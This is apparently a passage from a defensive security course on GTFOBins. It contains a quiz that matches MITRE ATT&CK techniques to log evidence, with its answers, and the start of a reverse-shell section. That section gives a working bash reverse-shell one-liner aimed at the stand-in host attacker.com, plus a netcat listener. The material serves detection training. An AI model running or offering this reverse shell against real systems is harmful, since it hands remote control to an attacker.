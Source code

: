 ### Questions

**NOTE:** The answers are in the gtfo.log or history records. You can find the answers by searching in these files. 

**Log File Location:** /root/Desktop/QuestionFiles/

1 - With which application was the activity corresponding to the “T1087.001 - Account Discovery: Local Account” Mitre ATT&CK technique run  non-interactively?

> **Answer:** at

2 - What is the username created with the activity corresponding to  “T1136.001 - Create Account: Local Account” Mitre ATT&CK technique  non-interactively?

> **Answer:** letsdefend

3 - With which application/command was the activity corresponding to “T1053 - Scheduled Task/Job” Mitre ATT&CK technique executed  non-interactively?

> **Answer:** crontab

4 - What is the key information added in the activity corresponding to the  “T1098.004 - Account Manipulation: SSH Authorized Keys” Mitre ATT&CK technique, which was carried out non-interactively?

> **Answer:** congratulations

## Reverse Shell

Reverse shell is a type of shell in which the target system  communicates back to the host system (command center). Commands sent by  the host system to the target system over the port it listens to in  order to establish the connection are executed on the target system. In  *nix systems, some applications allow establishing reverse shell. These  applications provide convenience to remotely manage the compromised  system for attackers. For this reason, we will go over how these  applications are used, in what conditions they are considered  suspicious, and how to detect them under this topic.

![img](https://letsdefend-images.s3.us-east-2.amazonaws.com/Courses/GTFOBins/4-img1.png)

To test the examples below, run the following command to accept  incoming connections on the main system (command center). The nc  (netcat) command starts listening on the port (12345) after the -l  (listen) -p (port) parameters and the -p parameter and accepts requests  coming to this port.

```
# nc -l -p 12345
```

### **# bash command**

**bash** is the command that allows you to open the bash  shell in the *nix terminal as well as switching to the bash shell. This  command can also be used to run different commands with the -c  parameter. The -i parameter makes the shell interactive.

```
# export RHOST=attacker.com  # export RPORT=12345  # bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```
